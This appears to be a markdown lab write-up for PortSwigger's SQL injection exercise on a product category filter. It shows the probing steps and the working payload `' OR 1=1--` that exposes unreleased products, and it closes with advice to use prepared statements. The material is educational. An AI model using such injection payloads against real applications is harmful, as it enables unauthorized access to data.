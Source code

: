 #  SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

# 🧪 SQL Injection - Category Filter Lab (PortSwigger)

> 💡 These notes are based on the **category filter SQL injection** lab, solved with the help of Rana Khalil's tutorial.

---

## 🔍 Introduction

The URL structure of the application is as follows:

```
/filter?category=Pets
```

To test if the parameter is vulnerable to SQL injection, we try appending a single quote (`'`) character:

```
/filter?category='
```

**Result:** We get an `Internal Server Error`.

➡️ This error indicates that the query in the backend breaks, and the parameter can be manipulated using SQL characters.

---

## 🧠 What Happens in the Backend?

The normal query might look something like this:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

When we inject a single quote (`'`), the query becomes:

```sql
SELECT * FROM products WHERE category = ''' AND released = 1
```

This breaks the SQL syntax and causes an error.

---

## ✅ Vulnerability Confirmed

From this behavior, we can confirm that the application is vulnerable to SQL injection.

---

## 🔧 Our Goal: Dump All Products

Let's start with a simple payload:

```
/filter?category='-- 
```

This payload transforms the query into:

```sql
SELECT * FROM products WHERE category = ''--' AND released = 1
```

This returns no results because the condition `category = ''` doesn't match any record.

---

## 🎯 Working Payload

Our goal is to manipulate the query logic to always return `TRUE`. We can use `OR 1=1` for this:

```
/filter?category=' OR 1=1-- 
```

The resulting query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
```

➡️ Since `OR 1=1` always evaluates to `TRUE`, this returns **all products**, regardless of whether they are released or not.

---

## 🧬 Summary

| Step | Action | Result |
|------|--------|--------|
| Add `'` | `/filter?category='` | Internal Server Error (vulnerable) |
| Add comment `--` | `/filter?category='--` | No results (category condition fails) |
| Use `OR 1=1` | `/filter?category=' OR 1=1--` | All products returned |

---

## 🛡️ Note

This type of attack is possible due to **unsanitized user input**. In real-world applications, such vulnerabilities can be prevented by using **prepared statements** or **ORMs**.
